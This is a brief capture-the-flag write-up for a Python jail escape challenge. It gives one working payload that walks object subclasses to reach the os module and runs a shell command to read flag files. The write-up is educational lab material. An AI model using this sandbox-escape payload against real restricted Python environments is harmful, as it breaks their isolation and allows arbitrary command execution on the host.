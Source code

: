 # Solve

A typical python jail escape challenge

a working payload as follows.

```py
[ x.__init__.__globals__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ][0]["sys"].modules["os"].system("cat flag*.txt")
```

